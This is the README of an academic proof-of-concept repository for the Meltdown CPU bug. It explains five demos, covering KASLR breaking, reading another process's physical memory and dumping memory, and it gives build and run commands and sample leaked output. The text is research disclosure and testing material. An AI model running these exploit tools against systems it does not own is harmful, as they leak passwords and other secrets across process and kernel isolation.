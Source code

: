 # Meltdown Proof-of-Concept

This repository contains several applications, demonstrating the [Meltdown bug](https://meltdown.help). For technical information about the bug, refer to the paper: 

* [Meltdown](https://meltdown.help/meltdown.pdf) by Lipp, Schwarz, Gruss, Prescher, Haas, Mangard, Kocher, Genkin, Yarom, and Hamburg

The applications in this repository are built with [libkdump](https://github.com/IAIK/Meltdown/tree/master/libkdump), a library we developed for the paper. This library simplifies exploitation of the bug by automatically adapting to certain properties of the environment. 

## Videos

This repository contains two videos demonstrating Meltdown

 * The [first video (spy)](https://cdn.rawgit.com/IAIK/meltdown/0bc37b5d/videos/spy.mp4) shows how Meltdown can be used to spy in realtime on a password input. 
 * The [second video (memdump)](https://cdn.rawgit.com/IAIK/meltdown/e5793de9/videos/memdump.mp4) shows how Meltdown leaks physical memory content. 
 

## Demos

This repository contains five demos to demonstrate different use cases. All demos are tested on Ubuntu 16.04 with an Intel Core i7-6700K, but they should work on any Linux system with any modern Intel CPU since 2010. 

For best results, we recommend a fast CPU that supports Intel TSX (e.g. any Intel Core i7-5xxx, i7-6xxx, or i7-7xxx). 
Furthermore, every demo should be pinned to one CPU core, e.g. with taskset.

### Demo #1: A first test (`test`)

This is the most basic demo. It uses Meltdown to read accessible addresses from the own address space, not breaking any isolation mechanisms. 

If this demo does not work for you, the remaining demos most likely won't work either. The reasons are manifold, e.g., the CPU could be too slow, not support out-of-order execution, the high-resolution timer is not precise enough (especially in VMs), the operating system does not support custom signal handlers, etc.

#### Build and Run

```bash
make
taskset 0x1 ./test
```

If you see an output similar to this
```
Expect: Welcome to the wonderful world of microarchitectural attacks
   Got: Welcome to the wonderful world of microarchitectural attacks
```
then the basic demo works.


### Demo #2: Breaking KASLR (`kaslr`)

Starting with Linux kernel 4.12, KASLR (Kernel Address Space Layout Randomizaton) is active by default.  This means, that the location of the kernel (and also the direct physical map which maps the entire physical memory) changes with each reboot.

This demo uses Meltdown to leak the (secret) randomization of the direct physical map. This demo requires root privileges to speed up the process. The paper describes a variant which does not require root privileges. 

#### Build and Run

```bash
make
sudo taskset 0x1 ./kaslr
```

After a few seconds, you should see something similar to this
```
[+] Direct physical map offset: 0xffff880000000000
```

### Demo #3: Reliability test (`reliability`)

This demo tests how reliable physical memory can be read. For this demo, you either need the direct physical map offset (e.g. from demo #2) or you have to disable KASLR by specifying `nokaslr` in your kernel command line. 

#### Build and Run

Build and start `reliability`. If you have KASLR enabled, the first parameter is the offset of the direct physical map. Otherwise, the program does not require a parameter. 
```bash
make
sudo taskset 0x1 ./reliability 0xffff880000000000
```

After a few seconds, you should get an output similar to this:
```
[-] Success rate: 99.93% (read 1354 values)
```

### Demo #4: Read physical memory (`physical_reader`)

This demo reads memory from a different process by directly reading physical memory. For this demo, you either need the direct physical map offset (e.g. from demo #2) or you have to disable KASLR by specifying `nokaslr` in your kernel command line. 

In principal, this program can read arbitrary physical addresses. However, as the physical memory contains a lot of non-human-readable data, we provide a test tool (`secret`), which puts a human-readable string into memory and directly provides the physical address of this string. 

#### Build and Run

For the demo, first run `secret` (as root) to get the physical address of a human-readable string:
```bash
make
sudo ./secret
```

It should output something like this:
```
[+] Secret: If you can read this, this is really bad
[+] Physical address of secret: 0x390fff400
[+] Exit with Ctrl+C if you are done reading the secret
```

Let the `secret` program running, and start `physical_reader`. The first parameter is the physical address printed by `secret`. If you do not have KASLR disabled,  the second parameter is the offset of the direct physical map.
```bash
taskset 0x1 ./physical_reader 0x390fff400 0xffff880000000000
```

After a few seconds, you should get an output similar to this:
```
[+] Physical address       : 0x390fff400
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff880390fff400

If you can read this, this is really bad
```


### Demo #5: Dump the memory (`memdump`)

This demo dumps the content of the memory. As demo #3 and #4, it uses the direct physical map, to dump the contents of the physical memory in a hexdump-like format. 

Again, as the physical memory contains a lot of non-human-readable content, we provide a test tool to fill large amounts of the physical memory with human-readable strings. 

#### Build and Run

For the demo, first run `memory_filler` to fill the memory with human-readable strings. The first argument is the amount of memory (in gigabytes) to fill. 
```bash
make
./memory_filler 9
```

Then, run the `memdump` tool to dump memory contents. If you executed `memory_filler` before, you should see some string fragments. 
If you have Firefox or Chrome with multiple tabs running, you might also see parts of the websites which are open or were recently closed. 

The first parameter is the physical address at which the dump should begin (leave empty to start at the first gigabyte). If you do not have KASLR disabled,  the second parameter is the offset of the direct physical map.

```bash
taskset 0x1 ./memdump 0x240000000 0xffff880000000000 # start at 9 GB
```

You should get a hexdump of parts of the memory (potentially even containing secrets such as passwords, see example in the paper), e.g.:

```
 240001c9f: | 00 6d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .m.............. |
 24000262f: | 00 7d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .}.............. |
 24000271f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 6e 20 75 | ............en u |
 24000272f: | 73 65 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 | ser space and ke |
 24000273f: | 72 6e 65 6c 57 65 6c 63 6f 6d 65 20 74 6f 20 74 | rnelWelcome to t |
 24000298f: | 00 61 72 79 20 62 65 74 77 65 65 6e 20 75 73 65 | .ary between use |
 24000299f: | 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 72 6e | r space and kern |
 2400029af: | 65 6c 42 75 72 6e 20 61 66 74 65 72 20 72 65 61 | elBurn after rea |
 2400029bf: | 64 69 6e 67 20 74 68 69 73 20 73 74 72 69 6e 67 | ding this string |
 240002dcf: | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c8 | ................ |
 2400038af: | 6a 75 73 74 20 73 70 69 65 64 20 6f 6e 20 61 00 | just spied on a. |
 240003c8f: | 00 00 1e 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ |
 24000412f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 74 73 2e | ............ets. |
 24000413f: | 2e 2e 57 65 6c 63 6f 6d 65 20 74 6f 20 74 68 65 | ..Welcome to the |
 2400042ff: | 00 00 00 00 00 00 00 00 00 6e 67 72 61 74 75 6c | .........ngratul |
 24000430f: | 61 74 69 6f 6e 73 2c 20 79 6f 75 20 6a 75 73 74 | ations, you just |
 24000431f: | 20 73 70 69 65 64 20 6f 6e 20 61 6e 20 61 70 70 |  spied on an app |
```


## Warnings
**Warning #1**: We are providing this code as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may cause unexpected and undesirable behavior to occur on your machine. This code may not detect the vulnerability on your machine.

**Warning #2**: If you find that a computer is susceptible to the Meltdown bug, you may want to avoid using it as a multi-user system. Meltdown breaches the CPU's memory protection. On a machine that is susceptible to the Meltdown bug, one process can read all pages used by other processes or by the kernel.

**Warning #3**: This code is only for testing purposes. Do not run it on any productive systems. Do not run it on any system that might be used by another person or entity.

